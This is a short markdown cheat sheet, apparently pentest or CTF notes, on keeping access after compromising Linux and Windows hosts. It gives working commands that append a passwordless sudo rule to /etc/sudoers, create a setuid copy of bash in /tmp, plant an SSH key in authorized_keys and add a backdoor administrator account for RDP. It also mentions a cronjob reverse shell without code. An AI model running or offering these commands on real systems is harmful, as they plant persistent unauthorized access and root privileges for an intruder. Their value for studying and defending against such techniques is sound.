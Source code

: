 # 4_persistence

## Linux

### Root

- Once obtained root, elevate permissions low level user using

```shell
echo "username ALL=NOPASSWD:ALL" >> /etc/sudoers
```

```shell
cp /bin/bash /tmp/bash; chmod +s /tmp/bash
```

### SSH

- Check for the existence of a private key in `~/.ssh/id_rsa`.

- Generate your own SSH key using this [tutorial](https://docs.github.com/en/authentication/connecting-to-github-with-ssh/generating-a-new-ssh-key-and-adding-it-to-the-ssh-agent?platform=linux)

```shell
ssh-keygen -t ed25519 -C "your_email@example.com"
```

- Upload public key of SSH key pair to `authorized_keys_file`.

### Cronjob

- Set up cronjob that establishes reverse shell
 
## Windows

### RDP

- Set up RDP accesss using

```shell
net user a3cipher a3cipher /add
net localgroup Administrators a3cipher /add
net localgroup "Remote Management Users" a3cipher /add
```
